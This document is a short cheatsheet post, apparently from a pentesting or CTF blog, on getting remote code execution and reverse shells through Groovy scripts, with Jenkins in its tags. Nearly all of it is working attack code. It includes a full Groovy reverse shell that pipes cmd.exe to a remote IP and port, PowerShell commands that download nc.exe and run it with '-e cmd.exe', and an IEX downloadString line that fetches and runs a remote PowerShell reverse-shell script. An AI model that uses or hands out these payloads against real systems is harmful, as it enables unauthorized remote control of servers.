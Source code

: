 ```yaml
---
title: "Groovy Script — Remote Code Execution"
date: 2020-08-24 18:13:44 +/-0800
categories: [Cheatsheets,Scripts]
tags: [Remote Code Execution,Groovy,RCE,Jenkins]
image: /assets/img/Posts/groovy.jpg
---
```


> This cheatsheet describes various methods for executing remote code in Groovy Language to get an reverse shell. 

## Method 1:

```console
String host="10.10.14.25";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## Method 2:

#### Testing code execution

```console
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
#### Uploading nc on victim machine

```console
def process = "powershell -command Invoke-WebRequest 'http://10.10.14.11:8080/nc.exe' -OutFile nc.exe".execute();
println("${process.text}");
```

#### Executing nc to get reverse shell

```console
def process = "powershell -command ./nc.exe 10.10.14.11 9001 -e cmd.exe".execute();
println("${process.text}");
```

## Method 3:

```console
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.36/Invoke-PowerShellTcp.ps1') """
println cmd.execute().txt
```


